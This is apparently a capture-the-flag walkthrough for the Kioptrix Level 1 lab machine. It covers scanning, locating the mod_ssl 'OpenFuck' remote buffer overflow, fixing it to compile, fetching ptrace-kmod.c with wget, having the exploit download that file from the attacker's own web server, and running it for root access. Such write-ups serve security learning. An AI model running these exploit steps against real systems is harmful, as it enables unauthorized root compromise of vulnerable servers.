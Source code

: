 # KIOPTRIX level1--Walkthrough


### Initial Port-Scan
----
- I usually like to scan the entire machine just incase they like to be sneaky and open a service on a random port number.
- port 139 was open so i quickly tried to access the shares but couldnt, kept getting denied. Used smbmap,enum4linux and tried connecting directly to the port using smbclient which didnt provide much help.

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Images/nmapscan.png "network scan")

**********

- From here i like to search for version exploits because some are easy to spot right away, especially if it looks really outdated.
- Using the command line searchsploit to look up "apache httpd" hoping there be an exploit for apache v1.3.20 but nothing stood out to me.
- I then used searchsploit to look up "apache mod_ssl" to look for exploits against apache mod_ssl v2.8.4

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Images/searchsploit.png "searching exploit")

- From the screenshot it looks like there is an exploit available apache mod_ssl v2.8.7 or a lower remote buffer overflow. I will give this exploit a try. I copied the exploit "cp /usr/share/exploitdb/exploits/unix/remote/764.c" to another directory.

### Fixing the exploit
- This exploit was quite difficult to run at the start, had to do a lot of googling because i kept running into errors when trying to compile it. 
- First you need to download the ptrace-kmod.c, you can use wget to download.  "wget  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c" 
- Reading the mod_ssl exploit File (764.c) it says to compile using syntax  "gcc -o OpenFuck OpenFuck.c -lcrypto". When trying to compile it will give you errors. Before compiling again we need to make a few changes. First you need to add these two lines of code at the top of "764.c".
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Images/fixing_exploit1.png)
- The exploit will also try to download the ptrace-kmod.c from the Internet. Since were running the Kioptrix machine on our home network we do not want it to have access to the internet. So instead the exploit will download the ptrace-kmod.c from our own attack machine (hence why we downloaded the ptrace-kmod.c at the start).
- Replace this HTTP site with our own webserver. (We will use python to spin up a quick webserver to host our ptrace-kmod.c) 
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Images/replace.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Images/fixing_exploit2.png)

### Running the exploit
- Now we can compile our exploit. "gcc  -o  exploit  764.c  -lcrypto"
- Trying to execute our new exploit will show instructions on proper syntax. It needs to know the apache version & operating system to use, along with the IP address, port, and -c 40-50.
- Looking at the options our exploit syntax is  "./exploit 0x6b  10.0.2.9   443  -c 40"
_____
- Now we have full access to the machine, with root privileges   
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Images/root.png)


